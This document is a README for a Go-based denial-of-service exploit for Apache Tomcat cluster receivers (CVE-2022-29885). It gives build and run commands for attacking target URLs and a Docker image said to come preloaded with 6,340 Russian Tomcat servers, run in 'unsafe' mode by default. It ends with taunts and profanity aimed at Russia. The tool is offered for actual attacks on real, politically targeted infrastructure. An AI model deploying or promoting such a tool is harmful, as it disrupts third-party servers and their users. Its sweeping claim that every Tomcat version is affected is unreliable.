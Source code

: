 # CVE-2022-29885 by 1vere$k
Apache Tomcat DoS (CVE-2022-29885) Exploit.  
Denial of Service in EncryptInterceptor (Tomcat Cluster).  

The target machine needs to start the `Cluster Nio Receiver`.  
Sending a special TCP packet will cause a Denial of Service to the target.  
Whether `EncryptInterceptor` is used or not, there is the possibility of denial of service vulnerability with condition:  
the Tomcat cluster function is enabled and use `NioReceiver` for communication.

Any version of Tomcat will be affected. The only solution is to use a trusted network.

Safe config file `server.xml` contains  
```
<Interceptor className="org.apache.catalina.tribes.group.interceptors.EncryptInterceptor"
       encryptionAlgorithm="AES/CBC/PKCS5Padding"
       encryptionKey="ANY_KEY(LENGTH:32)"/>
```

Every other config variation is unsafe.

## Usage 

Application

```
1. git clone https://github.com/iveresk/CVE-2022-29885.git
2. cd CVE-2022-29885
3. go build -o /cve-2022-29885
4. ./cve-2022-29885 -t <target_url or file_name> [OPTIONAL] -s false -d false

- t - target URL or filename
- d - debug {true, false} flag which enables or disables logs
- s - safe and unsafe regime switcher. Default value is unsafe.
```

Docker with pre-defined 6340 ruzzian Apache Tomcat servers multiplies for the 10 most common Tomcat ports.  
Default `Unsafe` mode is pre-setuped.

```
docker run -d masterroot/cve-2022-29885
```

Have fun with `ruzzland-terrorist-state` VoIP devices :D

## RUSSIAN WARSHIP GO FRAK YOURSELF!
![Russian Warship Go F*ck Yourself](rus-ship-go-fuck-yourself.jpeg)

## Contact
You are free to contact me via [Keybase](https://keybase.io/1veresk) for any details. 